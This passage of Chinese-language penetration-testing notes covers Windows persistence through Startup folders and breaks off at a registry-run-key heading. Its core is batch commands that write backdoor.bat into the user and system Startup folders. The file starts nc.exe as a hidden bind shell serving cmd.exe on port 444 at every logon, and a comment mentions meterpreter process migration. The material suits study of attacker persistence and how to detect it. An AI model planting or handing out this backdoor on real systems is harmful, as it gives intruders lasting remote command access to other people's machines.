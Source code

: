 ## 通过启动目录

### 理论

> * 启动目录分用户启动目录和系统启动目录
> 
> * 查看用户启动目录：运行》shell:startup
> 
> * 查看系统启动目录：运行》shell:common startup
> 
> * winxp、03启动目录自己一个样
> 
> * 用户启动目录：%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\
> 
> * 系统启动目录：%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\

### 写到系统启动目录

```batch
cd %ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\
echo start /min "" c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe > backdoor.bat
echo exit >> backdoor.bat
rem Windows和Linux >是覆写，>>是追加
type backdoor.bat
rem type在cmd是查看文件内容，在bash是查询命令类型
del backdoor.bat
rem 删除bat脚本
```

### 写道用户启动目录

```batch
cd %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\
echo start /min "" c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe > backdoor.bat
echo exit >> backdoor.bat
rem system权限的cmd找不到用户启动目录，把meterpreter进程迁移到administrator权限的进程下，再启动cmdshell，用administrator权限的cmd
type backdoor.bat
del backdoor.bat
```

## 通过修改注册表的启动项

### 理论

> * 注册表就是系统配置文件
> 
> * 系统启动时，加载注册表配置
> 
> * 注册表里有一项“启动项”，规定了系统启动时的动作

### 修改当前用户注册表启动项
